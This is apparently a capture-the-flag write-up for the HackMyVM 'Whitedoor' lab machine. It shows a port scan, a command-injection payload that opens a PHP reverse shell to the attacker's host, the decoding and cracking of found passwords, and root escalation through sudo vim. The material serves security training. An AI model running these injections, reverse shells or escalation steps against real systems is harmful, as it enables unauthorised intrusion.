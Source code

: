 ```yaml
---
title: "Whitedoor - Pylon"
excerpt: " "
comments: true
categories:
  - Hacking
  - Walkthrough
tags:
  - Hacking
  - Walkthrough
  - HackMyVM
  - Whitedoor
header:
  overlay_image: /assets/images/pasek-hack.png
---
```

# Whitedoor - Pylon
{: .text-justify}

## 00. Metainfo

|:----|:----|
|Title:|Whitedoor|
|Author:|[Pylon](https://hackmyvm.eu/profile/?user=Pylon)|
|Release date:|2023-12-15|
|Download from:|[HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Whitedoor)|
|Level:|Easy|
|System:|Linux|
|You'll learn:|reverse shell|

# 01. Entry
[Whitedoor](https://hackmyvm.eu/machines/machine.php?vm=Whitedoor) is the second machine from [Pylon](https://hackmyvm.eu/profile/?user=Pylon). It is easier than the previous one and is recommended for beginners, if someone has not had any experience with this "sport", they can have some fun with it, and for the rest it is a piece of cake, which does not mean that it is bad.
{: .text-justify}
# 02. Beginning
In the beginning there was scanning:
{: .text-justify}
```bash
msf6 exploit(multi/handler) > workspace -a whitedoor
[*] Added workspace: whitedoor
[*] Workspace: whitedoor
msf6 exploit(multi/handler) > db_nmap -A -p- 172.16.1.179
[*] Nmap: Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-12-15 09:08 CET
[*] Nmap: Nmap scan report for whitedoor.lan (172.16.1.179)
[*] Nmap: Host is up (0.00060s latency).
[*] Nmap: Not shown: 65532 closed tcp ports (reset)
[*] Nmap: PORT   STATE SERVICE VERSION
[*] Nmap: 21/tcp open  ftp     vsftpd 3.0.3
[*] Nmap: | ftp-anon: Anonymous FTP login allowed (FTP code 230)
[*] Nmap: |_-rw-r--r--    1 0        0              13 Nov 16 22:40 README.txt
[*] Nmap: | ftp-syst:
[*] Nmap: |   STAT:
[*] Nmap: | FTP server status:
[*] Nmap: |      Connected to ::ffff:172.16.1.89
[*] Nmap: |      Logged in as ftp
[*] Nmap: |      TYPE: ASCII
[*] Nmap: |      No session bandwidth limit
[*] Nmap: |      Session timeout in seconds is 300
[*] Nmap: |      Control connection is plain text
[*] Nmap: |      Data connections will be plain text
[*] Nmap: |      At session startup, client count was 3
[*] Nmap: |      vsFTPd 3.0.3 - secure, fast, stable
[*] Nmap: |_End of status
[*] Nmap: 22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
[*] Nmap: | ssh-hostkey:
[*] Nmap: |   256 3d:85:a2:89:a9:c5:45:d0:1f:ed:3f:45:87:9d:71:a6 (ECDSA)
[*] Nmap: |_  256 07:e8:c5:28:5e:84:a7:b6:bb:d5:1d:2f:d8:92:6b:a6 (ED25519)
[*] Nmap: 80/tcp open  http    Apache httpd 2.4.57 ((Debian))
[*] Nmap: |_http-server-header: Apache/2.4.57 (Debian)
[*] Nmap: |_http-title: Home
[*] Nmap: MAC Address: 08:00:27:CD:91:8F (Oracle VirtualBox virtual NIC)
[*] Nmap: Device type: general purpose
[*] Nmap: Running: Linux 4.X|5.X
[*] Nmap: OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
[*] Nmap: OS details: Linux 4.15 - 5.8
[*] Nmap: Network Distance: 1 hop
[*] Nmap: Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
[*] Nmap: TRACEROUTE
[*] Nmap: HOP RTT     ADDRESS
[*] Nmap: 1   0.60 ms whitedoor.lan (172.16.1.179)
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 11.33 seconds
msf6 exploit(multi/handler) > services 
Services
========

host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
172.16.1.179  21    tcp    ftp   open   vsftpd 3.0.3
172.16.1.179  22    tcp    ssh   open   OpenSSH 9.2p1 Debian 2+deb12u1 protocol 2.0
172.16.1.179  80    tcp    http  open   Apache httpd 2.4.57 (Debian)
```
There are 3 ports open:
{: .text-justify}
- **21/tcp** - FTP
- **22/tcp** - SSH
- **80/tcp** - Apache WWW

# 03. Reverse shell i WWW
There was nothing interesting on the ftp, it was a bit of a misnomer. But when we enter the website we see something like this:
{: .text-justify}
![01](/assets/images/hacking/2023/06/01.png)
The message states that only the **ls** command works:
{: .text-justify}
![Alt text](image.png)
{: .text-justify}
On the server, which I checked, there is probably no **nc** command, but we can immediately go further and do something like this:
## 03a. Listening 
On our server we run:
{: .text-justify}
```bash
nc -lvn -p 12345
```
```bash
listening on [any] 12345 ...
```
## 03b. Web browser 
And in the web browser window we enter:
{: .text-justify}
```bash
ls; php -r '$sock=fsockopen("172.16.1.89",12345);exec("bash <&3 >&3 2>&3");'
```
After a while, **shell** will connect to us::
{: .text-justify}
```bash
connect to [172.16.1.89] from (UNKNOWN) [172.16.1.179] 58258
script /dev/null -c /bin/bash
Script started, output log file is '/dev/null'.
www-data@whitedoor:/var/www/html$ 
```
Sorry - **Pylon** - I took some shortcuts.
{: .text-justify}
# 04. Shell
Type commands:
{: .text-justify}
```bash
cd /home/
find .
```
```bash
find: './Gonzalo': Permission denied
./whiteshell
./whiteshell/Downloads
./whiteshell/.profile
./whiteshell/.local
./whiteshell/.local/share
find: './whiteshell/.local/share': Permission denied
./whiteshell/.bash_logout
./whiteshell/Documents
./whiteshell/Public
./whiteshell/Pictures
./whiteshell/Music
./whiteshell/.bashrc
./whiteshell/Desktop
./whiteshell/Desktop/.my_secret_password.txt
./whiteshell/.bash_history
```
```bash
cat ./whiteshell/Desktop/.my_secret_password.txt
```
```bash
whiteshell:*****
```
We see the password, which is encoded with **Base64**. We decode twice and have access to the **whiteshell** account:
{: .text-justify}
```bash
base64 -d <<< haselkowbase64
```
# 04. User whiteshell
Being in the whiteshell account, we list all files from the **/home** directory
{: .text-justify}
```bash
find /home/
```
```bash
/home/Gonzalo/.bash_logout
/home/Gonzalo/Documents
/home/Gonzalo/Public
/home/Gonzalo/Pictures
/home/Gonzalo/Music
/home/Gonzalo/.bashrc
/home/Gonzalo/Desktop
/home/Gonzalo/Desktop/user.txt
/home/Gonzalo/Desktop/.my_secret_hash
```
# 05. User Gonzales
We have a password that is easy to crack in the program: **Hashcat** or **John**
{: .text-justify}
```bash
hashcat -O -m3200 -a0 hashe\whiteshell.txt dict\rockyou.txt
```
# 06. root
Type:
{: .text-justify}
```bash
Gonzalo@whitedoor:~$ sudo -l
```
```bash
Matching Defaults entries for Gonzalo on whitedoor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User Gonzalo may run the following commands on whitedoor:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
```
```bash
sudo /usr/bin/vim
```
In the **Vim** program:
{: .text-justify}
```bash
:!bash
```

